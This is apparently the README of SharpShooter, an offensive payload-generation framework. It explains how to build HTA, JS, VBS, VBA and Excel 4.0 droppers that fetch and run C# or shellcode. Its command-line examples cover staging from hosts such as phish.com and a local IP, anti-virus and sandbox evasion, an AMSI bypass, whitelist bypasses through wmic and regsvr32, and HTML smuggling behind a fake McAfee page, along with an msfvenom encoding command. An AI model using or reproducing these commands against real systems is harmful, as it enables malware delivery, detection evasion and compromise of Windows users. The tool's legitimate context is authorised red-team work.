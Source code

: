 ```
   _____ __                    _____ __                __           
  / ___// /_  ____ __________ / ___// /_  ____  ____  / /____  _____
  \__ \/ __ \/ __ `/ ___/ __ \\__ \/ __ \/ __ \/ __ \/ __/ _ \/ ___/
 ___/ / / / / /_/ / /  / /_/ /__/ / / / / /_/ / /_/ / /_/  __/ /    
/____/_/ /_/\__,_/_/  / .___/____/_/ /_/\____/\____/\__/\___/_/     
                     /_/                                            

```

Description
===========

SharpShooter is a payload creation framework for the retrieval and execution of arbitrary CSharp source code.
SharpShooter is capable of creating payloads in a variety of formats, including HTA, JS, VBS and WSF. It leverages James Forshaw's [DotNetToJavaScript](https://github.com/tyranid/DotNetToJScript) tool to invoke methods from the SharpShooter DotNet serialised object. Payloads can be retrieved using Web or DNS delivery or both; SharpShooter is compatible with the MDSec ActiveBreach PowerDNS project. Alternatively, stageless payloads with embedded shellcode execution can also be generated for the same scripting formats.

SharpShooter payloads are RC4 encrypted with a random key to provide some modest anti-virus evasion, and the project includes the capability to integrate sandbox detection and environment keying to assist in evading detection.

SharpShooter includes a predefined CSharp template for executing shellcode with staged and stageless payloads, but any CSharp code can be compiled and invoked in memory using reflection, courtesy of CSharp's CodeDom provider.

Finally, SharpShooter provides the ability to bundle the payload inside an HTML file using the [Demiguise HTML smuggling](https://github.com/nccgroup/demiguise) technique.

SharpShooter targets v2, v3 and v4 of the .NET framework which will be found on most end-user Windows workstations.

Version 1.0 of SharpShooter introduced several new concepts, including COM staging, execution of Squiblydoo and Squiblytwo, as well as XSL execution. To acomplish this new functionality, several new flags were added; --com, --awl and --awlurl.

Version 2.0 of SharpShooter added the AMSI bypass module, along with support generating VBA and Excel 4 macro enabled documents.

Further information can be found on the [MDSec blog post](https://www.mdsec.co.uk/2018/03/payload-generation-using-sharpshooter/).

Usage - Command Line Mode:
======

SharpShooter is highly configurable, supporting a number of different payload types, sandbox evasions, delivery methods and output types.

Running SharpShooter with the --help argument will produce the following output:

```
usage: SharpShooter.py [-h] [--stageless] [--dotnetver <ver>] [--com <com>]
                       [--awl <awl>] [--awlurl <awlurl>] [--payload <format>]
                       [--sandbox <types>] [--amsi <amsi>] [--delivery <type>]
                       [--rawscfile <path>] [--shellcode] [--scfile <path>]
                       [--refs <refs>] [--namespace <ns>] [--entrypoint <ep>]
                       [--web <web>] [--dns <dns>] [--output <output>]
                       [--smuggle] [--template <tpl>]

optional arguments:
  -h, --help          show this help message and exit
  --stageless         Create a stageless payload
  --dotnetver <ver>   Target .NET Version: 2 or 4
  --com <com>         COM Staging Technique: outlook, shellbrowserwin, wmi, wscript, xslremote
  --awl <awl>         Application Whitelist Bypass Technique: wmic, regsvr32
  --awlurl <awlurl>   URL to retrieve XSL/SCT payload
  --payload <format>  Payload type: hta, js, jse, vba, vbe, vbs, wsf
  --sandbox <types>   Anti-sandbox techniques:
                      [1] Key to Domain (e.g. 1=CONTOSO)
                      [2] Ensure Domain Joined
                      [3] Check for Sandbox Artifacts
                      [4] Check for Bad MACs
                      [5] Check for Debugging
  --amsi <amsi>       Use amsi bypass technique: amsienable
  --delivery <type>   Delivery method: web, dns, both
  --rawscfile <path>  Path to raw shellcode file for stageless payloads
  --shellcode         Use built in shellcode execution
  --scfile <path>     Path to shellcode file as CSharp byte array
  --refs <refs>       References required to compile custom CSharp,
                      e.g. mscorlib.dll,System.Windows.Forms.dll
  --namespace <ns>    Namespace for custom CSharp,
                      e.g. Foo.bar
  --entrypoint <ep>   Method to execute,
                      e.g. Main
  --web <web>         URI for web delivery
  --dns <dns>         Domain for DNS delivery
  --output <output>   Name of output file (e.g. maldoc)
  --smuggle           Smuggle file inside HTML
  --template <tpl>    Name of template file (e.g. mcafee)
```

Examples of some use cases are provided below:

### Stageless JavaScript ###

```
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3
```

Create a stageless JavaScript payload targeting version 4 of the .NET framework. This example will create a payload named foo.js in the output directory. The shellcode is read from the ./raw.txt file.
The payload attempts to enforce some sandbox evasion by keying execution to the CONTOSO domain, and checking for known sandbox/VM artifacts.

### Stageless HTA ###

```
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee
```

Create a stageless HTA payload targeting version 2/3 of the .NET framework. This example will create a payload named foo.hta in the output directory. The shellcode is read from the ./raw.txt file.
The payload attempts to enforce some sandbox evasion by checking for known virtual MAC addresses. A HTML smuggling payload will also be generated named foo.html in the output directory. This payload will use the example McAfee virus scan template.

### Staged VBS ###

```
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4
```

This example creates a staged VBS payload that performs both Web and DNS delivery. The payload will attempt to retrieve a GZipped CSharp file that executes the shellcode supplied as a CSharp byte array in the csharpsc.txt file. The CSharp file used is the built-in SharpShooter shellcode execution template. The payload is created in the output directory named foo.payload and should be hosted on http://www.foo.bar/shellcode.payload. The same file should also be hosted on the bar.foo domain using PowerDNS to serve it. The VBS file will attempt to key execution to the CONTOSO domain and will be embedded in a HTML file using the HTML smuggling technique with the McAfee virus scanned template. The resultant payload is stored in the output directory named foo.html.

### Custom CSharp inside VBS ###

```
SharpShooter.py --dotnetver 2 --payload js --sandbox 2,3,4,5 --delivery web --refs mscorlib.dll,System.Windows.Forms.dll --namespace MDSec.SharpShooter --entrypoint Main --web http://www.phish.com/implant.payload --output malicious --smuggle --template mcafee
```

This example demonstrates how to create a staged JS payload that performs web delivery, retrieving a payload from http://www.phish.com/implant.payload. The generated payload will attempt sandbox evasion, and attempt to compile the retrieved payload which requires mscorlib.dll and System.Windows.Forms.dll as DLL references. The Main method in the MDSec.SharpShooter namespace will be executed on successful compilation.

### Creation of a Squiblytwo VBS ###

```
SharpShooter.py --stageless --dotnetver 2 --payload vbs --output foo --rawscfile ./x86payload.bin --smuggle --template mcafee --com outlook --awlurl http://192.168.2.8:8080/foo.xsl
```

This example creates a VBS smuggled COM stager that uses the Outlook.CreateObject() COM method as a primitive to execute wmic.exe to execute a hosted stylesheet. The --awl parameter is not used by defaults to wmic.

### Creation of a XSL HTA ###

```
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./x86payload.bin --smuggle --template mcafee --com xslremote --awlurl http://192.168.2.8:8080/foo.xsl
```

This example creates a HTA smuggled file that uses the the XMLDOM COM interface to retrieve and execute a hosted stylesheet.

### Creation of a VBA Macro ###

```
SharpShooter.py --stageless --dotnetver 2 --payload macro --output foo --rawscfile ./x86payload.bin --com xslremote --awlurl http://192.168.2.8:8080/foo.xsl
```

This example creates a VBA macro file that uses the the XMLDOM COM interface to retrieve and execute a hosted stylesheet.


### Creation of an Excel 4.0 SLK Macro Enabled Document ###

```
SharpShooter.py --payload slk --output foo --rawscfile ~./x86payload.bin --smuggle --template mcafee
```

This example creates an Excel 4.0 SLK file that executes the supplied shellcode and wraps it in HTML.
The shellcode cannot contain null bytes, hint:

```
msfvenom -p generic/custom PAYLOADFILE=./payload.bin -a x86 --platform windows -e x86/shikata_ga_nai -f raw -o shellcode-encoded.bin -b '\x00'
```

Author and Credits
==================
Author: Dominic Chell, MDSec ActiveBreach [@domchell](https://twitter.com/domchell) and [@mdseclabs](https://twitter.com/mdseclabs)

Credits:
- [@tiraniddo](https://twitter.com/tiraniddo): James Forshaw for DotNetToJScript
- [@Arno0x0x](https://twitter.com/Arno0x0x): for EmbedInHTML
- [@buffaloverflow](https://twitter.com/buffaloverflow): Rich Warren for Demiguise
- [@arvanaghi](https://twitter.com/arvanaghi) and [@ChrisTruncer](https://twitter.com/ChrisTruncer): Brandon Arvanaghi and Chris Truncer for CheckPlease
- [@subTee](https://twitter.com/subtee): Documentation for Squiblydoo and Squiblytwo techniques
- [@StanHacked](https://twitter.com/stanhacked): Excel 4.0 technique and code examples